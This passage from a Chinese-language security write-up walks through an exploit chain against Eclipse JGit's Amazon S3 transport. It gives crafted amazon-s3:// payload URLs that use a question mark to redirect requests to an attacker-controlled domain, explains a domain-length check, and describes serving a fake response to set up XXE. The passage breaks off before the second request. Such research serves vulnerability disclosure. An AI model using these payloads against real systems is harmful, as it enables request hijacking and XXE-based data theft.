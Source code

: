 ![Image](https://mmbiz.qpic.cn/sz_mmbiz_png/IHHY4xBiax3EdN5hFRdmia42uibL7nwSTC7ppVCiaZr0TrTMoPuTficBD2V4rTfT2qt1fGn166VGBCozesLrAhicWo5Q/640?wx_fmt=png&from=appmsg "")  
  
- 问题  
：拼接完的URL：  
http://test.s3.amazonaws.com/packed-refs  
, 虽然bucket被拼接到了URL中，但是现在的URL最终请求的域名还是  
s3.amazonaws.com  
。我们的目标是让它访问我们自己的域名，这样我们才能控制返回包的内容，并注入XXE-payload。  
- 绕过思路  
：聪明的你已经想到了，我们可以利用 URL 特性，通过   
问号（?）  
 分割域名与参数，使   
s3.amazonaws.com  
 变为参数部分。而bucket指定一个我们自己的域名。  
- 修改后的payload  
:  
amazon-s3://user:pass@xxoo.pro?/  
- 最终生成的URL是：  
http://xxoo.pro?  
.s3.amazonaws.com/%2Fpacked-refs  
 通过问号截断，s3的域名就成为了参数，请求的域名是我们自己的域名xxoo.pro。  
#### 4.4 域名长度限制  
- 不出意外的话，就出意外了，因为在发起请求之前还会经过  
authorize  
 方法，这里会对域名做切分处理，如果长度小于16（  
s3.amazonaws.com  
的长度），就会出现索引错误了。  
  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_png/IHHY4xBiax3EdN5hFRdmia42uibL7nwSTC718QqFvT7V5VOjdBAAqnMp4AATCTyavWQMD8TUtggbqosqDZDhs076A/640?wx_fmt=png&from=appmsg "")  
  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_png/IHHY4xBiax3EdN5hFRdmia42uibL7nwSTC7DSibysk0Ssdibiacgc1DgL1gFheQ1xYfz1fsBPDwPicFTebR4UmJdzcKBg/640?wx_fmt=png&from=appmsg "")  
- 调整后的payload：  
amazon-s3://user:pass@src123456.xxoo.pro?/  
####   
#### 4.5 处理第一个响应包  
- org.eclipse.jgit.transport.WalkRemoteObjectDatabase#readPackedRefsImpl  
方法会对上面的第一个请求的响应包进行解析，看是否符合自己的预期，因为不涉及XML的解析，我们只需要使其不报错即可。  
- 我们让  
http://src123456.xxoo.pro?  
.s3.amazonaws.com/%2Fpacked-refs  
返回  
#test  
即可。  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_png/IHHY4xBiax3EdN5hFRdmia42uibL7nwSTC7uFQbqlWRzXiaicZJZ6mufbrm1gSe1HabJkiaZHmzdr0DD0sxbA5mERXibw/640?wx_fmt=png&from=appmsg "")  
- 编写接口返回，这里我用fastapi写了一个接口。（文末会贴上完整接口信息）  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_png/IHHY4xBiax3EdN5hFRdmia42uibL7nwSTC7kQudxbicEqro2ScuibQnaVfl4QOqWiaxDbTReMPz2E6MSO84qqGaYcBuA/640?wx_fmt=png&from=appmsg "")  
####   
#### 4.6 触发第二个HTTP请求，触发XXE  
- 第二个请求是在  
org.eclipse.jgit.transport.TransportAmazonS3.DatabaseS3#readLooseRefs  
中的  
s3.list()  
 ---  
lp.list()  
方法中触发。  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_png/IHHY4xBiax3EdN5hFRdmia42uibL7nwSTC7ZjDxJ48ErAAQWTtAQ9UQW6ibcxLvIwxGqsN7wZAPWNObSSOzxmPyzSQ/640?wx_fmt=png&from=appmsg "")  
- 请求接口并对XML进行解析  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_png/IHHY4xBiax3EdN5hFRdmia42uibL7nwSTC7JNogjh3YnVGZlfC7giau7jPkEeiakibF8CQsDm6sicicCj6GVsTZvwONvBw/640?wx_fmt=png&from=appmsg "")  
- 第二次请求的URL：  